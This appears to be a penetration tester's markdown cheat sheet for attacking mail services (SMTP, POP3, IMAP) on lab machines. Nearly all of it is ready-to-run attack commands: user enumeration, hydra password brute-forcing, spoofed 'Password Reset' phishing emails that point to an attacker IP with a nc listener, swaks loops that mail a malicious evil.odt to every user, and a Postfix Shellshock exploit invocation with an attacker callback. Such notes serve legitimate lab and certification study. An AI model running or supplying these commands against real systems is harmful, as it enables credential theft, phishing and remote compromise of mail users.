# Mail - SMTP 25 465 587, IMAP 143 993, POP 110 995

### First Thoughts

- Phishing
	- Windows or Linux?
	- NTLM grab, link to local server, library file, reverse shell?
	- What type of file?

- Enumeration
	- Check for valid users
	- Try valid usernames elsewhere, perhaps username as their password

- Exploits
	- Haven't done in 200+ boxes so far (remotely)


#### Basic enumeration

```bash
sudo nmap -n -v -p $RPORT_SMTP --script="smtp-* and safe" -oA smtp $RHOST

# enumerate users
sudo nmap -n -v -p $RPORT_SMTP --script="smtp-enum-users" -oA smtp-users $RHOST

# enumerate each user
vi smtp-user.txt  # write what smtp-enum-users told
## use MODE = {EXPN, VRFY, RCPT}
smtp-user-enum -M MODE -U smtp-user.txt -D $DOMAIN -t $RHOST
````

#### Manual user enum

```bash
nc -nv $ip 25
telnet $ip 25
EHLO ALL
VRFY <USER>
```

```bash
# Scrape website
cewl http://postfish.off/team.html -m 5 -w team.txt 
# Get valid names
smtp-user-enum -U valid.txt -t postfish.offsec
smtp-user-enum -U valid.txt -t postfish.off
smtp-user-enum -U /opt/SecLists/Usernames/xato-net-10-million-usernames-dup-lowercase.txt -t walla

curl -k "imaps://$dom/INBOX;MAILINDEX=1" --user sales:sales
telnet $ip 110
USER sales
PASS sales
list

# We opened up an email saying there would be a password reset link being sent out from it
sudo nc -lvp 80
sendemail -t brian.moore@postfish.off -f it@postfish.off -s postfish.off -u "Password Reset" -o tls=no
sendemail -t root@postfish.off -f brian.moore@postfish.off -s postfish.off -u "Password Reset" -o tls=no

# Or

nc -v postfish.off 25
helo test
mail from: it@postfish.off
rcpt to: brian.moore@postfish.off
DATA

Subject: Password reset

Hi Brian,

Please follow this link to reset your password: http://192.168.45.178/

Regards,

.

QUIT
```

```bash
for name in $(cat valid.txt); for name2 in $(cat valid.txt); do sudo swaks --to $name@$dom --from $name2@$dom --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king' ; wait ; done

for name in $(cat valid.txt); for name2 in $(cat valid.txt); do sudo swaks --to $name@localhost --from $name2@localhost --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king' ; wait ; done

for name in $(cat valid.txt); for name2 in $(cat valid.txt); do echo "sudo swaks --to $name@$dom --from $name2@$dom --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king'" >> all-swaks.txt; done

for line in $(cat all-swaks.txt); do echo $line|bash; done

# Sometimes the base of the domain, banzai instead of banzai.local, works better
for user1 in $(cat users.txt); for user2 in $(cat users.txt); do echo "sendemail -t $user1@$dom -f $user2@$dom -s $dom -u 'Password Reset' -m 'Please follow this link to reset your password: http://$myip/' -o tls=no"|bash; done

for user1 in $(cat valid.txt); for user2 in $(cat valid.txt); do echo "sendemail -t $user1@$dc -f $user2@$dc -s $dc -u 'Password Reset' -m 'Please follow this link to reset your password: http://$myip/' -o tls=no"|bash; done
```

##### Exploits Found

SMTP PostFix Shellshock

```
https://gist.github.com/YSSVirus/0978adadbb8827b53065575bb8fbcb25
python2 shellshock.py 10.11.1.231 useradm@mail.local 192.168.119.168 139 root@mail.local #VRFY both useradm and root exist
```

## Pop 110 & 995

```bash
nmap -n -v -p $port -sV --script="pop3-* and safe" -oA pop3 $ip
```

```bash
hydra -V -f -l $user -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $ip pop3
```

```bash
telnet $ip $port   # alternate method
user $user@$dom
PASS $PASS
LIST # gets list of emails and sizes
RETR 1 # retrieve first email
# try real (root) and fake users to see if there is a difference in error msgs
```

## IMAP 143 993

```bash
hydra -V -f -L user.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $RHOST imap
```